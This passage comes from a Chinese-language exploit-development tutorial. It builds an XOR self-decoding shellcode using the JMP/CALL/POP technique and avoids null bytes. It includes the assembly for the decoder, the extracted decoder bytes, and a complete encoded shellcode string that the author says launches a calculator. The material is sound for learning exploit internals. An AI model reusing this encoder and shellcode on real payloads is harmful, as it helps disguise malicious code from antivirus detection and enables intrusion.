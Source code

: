 2)第二步，利用JMP/CALL机制定位原理来编写解码器

需要注意的是，我们编写的解码器，必须不能出现空字节，所以写的时候需要额外注意下。

如下是自解码的汇编指令:

```assembly
        jmp call_point;

        decoder:
            pop edi;
            xor ecx, ecx;
            mov cl, 66h; shellcode size and add 1,beacuase of nop instruction。

        decode:
            xor byte ptr [edi], 0x5A; xor key:0x5A
            inc edi;
            loop decode;
            jmp short shellcode;
        call_point:
            call decoder;

        shellcode:
            nop ;
```

![image-20220207000150567](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-e29c7b758fa6f8b372ecd26268515c0ac52bac82.png)

很好并没有出现空字节，用前面的Py脚本提取出ShellCode。

```php
\xEB\x0D\x5F\x33\xC9\xB1\x66\x80\x37\x5A\x47\xE2\xFA\xEB\x05\xE8\xEE\xFF\xFF\xFF\x90
```

将两个结果拼接起来，去掉`\x90`这个标志的，修改`\x66`为`\X65`即如下:

```php
\xEB\x0D\x5F\x33\xC9\xB1\x65\x80\x37\x5A\x47\xE2\xFA\xEB\x05\xE8\xEE\xFF\xFF\xFF
+
\x3e\xd1\x47\x6a\x5a\x5a\x5a\xd1\x1\x56\xd1\x1\x4e\xd1\x41\xd1\x41\xd1\x1\x4a\xd1\x9\x66\x59\x89\xd1\x8\x22\x59\x89\x69\x93\x13\xd1\x28\x7a\x59\xa9\x1b\xf7\x59\x99\xdb\x62\xd\x33\x34\x1f\x2f\xae\xdb\x22\x5e\x22\x3f\x39\x5a\x2f\xb1\xd1\x28\x7e\x59\xa9\x3c\xd1\x56\x14\xd1\x28\x46\x59\xa9\xd1\x4e\xd4\x59\x89\x69\x81\x9\x32\x74\x3f\x22\x3f\x32\x39\x3b\x36\x39\xd1\xae\x30\x50\xc\xa5\x88\xd9\x9e\x48\xca
```

得到完整的shellcode，然后运行，可成功弹出计算器，编码后ShellCode体积也不大，比原来多出解码器20字节的大小。

```php
\xEB\x0D\x5F\x33\xC9\xB1\x65\x80\x37\x5A\x47\xE2\xFA\xEB\x05\xE8\xEE\xFF\xFF\xFF\x3e\xd1\x47\x6a\x5a\x5a\x5a\xd1\x1\x56\xd1\x1\x4e\xd1\x41\xd1\x41\xd1\x1\x4a\xd1\x9\x66\x59\x89\xd1\x8\x22\x59\x89\x69\x93\x13\xd1\x28\x7a\x59\xa9\x1b\xf7\x59\x99\xdb\x62\xd\x33\x34\x1f\x2f\xae\xdb\x22\x5e\x22\x3f\x39\x5a\x2f\xb1\xd1\x28\x7e\x59\xa9\x3c\xd1\x56\x14\xd1\x28\x46\x59\xa9\xd1\x4e\xd4\x59\x89\x69\x81\x9\x32\x74\x3f\x22\x3f\x32\x39\x3b\x36\x39\xd1\xae\x30\x50\xc\xa5\x88\xd9\x9e\x48\xca
```

![image-20220207000032758](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-40d6e3d7446f41e37b0d69c36bd6e70bbacbf47d.png)
